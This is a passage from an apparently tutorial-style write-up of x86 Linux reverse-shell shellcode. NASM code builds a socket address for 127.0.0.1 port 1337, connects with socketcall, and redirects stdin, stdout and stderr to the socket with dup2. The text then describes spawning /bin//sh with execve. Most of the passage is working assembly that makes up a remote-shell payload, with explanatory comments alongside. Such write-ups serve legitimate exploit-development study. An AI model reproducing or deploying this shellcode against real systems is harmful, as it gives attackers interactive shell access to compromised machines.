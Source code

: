 On success, return 0 in EAX

```nasm
;sockaddr{AF_INET, port, INADDR_ANY}
;connect(sockfd, *sockaddr, addrlen)
;socketcall(3, *args)
;return 0 if success
    pop ebx             ; ebx set to SYS_BIND 
                        ; 2 was the last value pushed on the stack
      
    push  0x0100007f    ; ip   127.0.0.1
    push  word 0x3905   ; port 1337
    push  bx            ; AF_INET
    mov ecx, esp        ; ecx point to the sockaddr struct

    push   0x10         ; sockaddr struct length
    push   ecx          ; address to the sockaddr struct
    push   edi          ; sockfd previously saved

    mov    ecx,esp      ; ecx points to the connect's arguments

    inc ebx             ; 3 for SYS_CONNECT

    push 0x66           ; socketcall
    pop eax
    int 0x80

```

### Overwrite standard I/O

Here we need to overwrite all standards I/O with the socketfd.  
So we make a loop to make three dup2 call with the values of stderr (2), stdout (1), stdin (0),  
In this order so at the end we have ECX set to 0, and that will be usefull to gain some bytes for our shellcode length.

On success, return the new file descriptor in EAX (so 0 on the last call)

```nasm
;dup2(sockfd, stderr)
;dup2(sockfd, stdout)
;dup2(sockfd, stdin])
    xchg ecx, ebx       ; ecx set to 3
    xchg ebx, edi       ; set ebx to sockfd 
link:
    dec    ecx          ; set ecx from 2 to 0 (stderr to stdin)
    mov    al,0x3f      ; dup2 syscall value
    int    0x80
    jne    link         ; if ecx not equal to stdin, overwrite next standard i/o
```

### Pop a shell

We push the "/bin//sh" string on the stack without forgetting the null byte, and we copy the address in EBX.  
ECX and EDX are already set null point (0x00) so we can make an execve call.
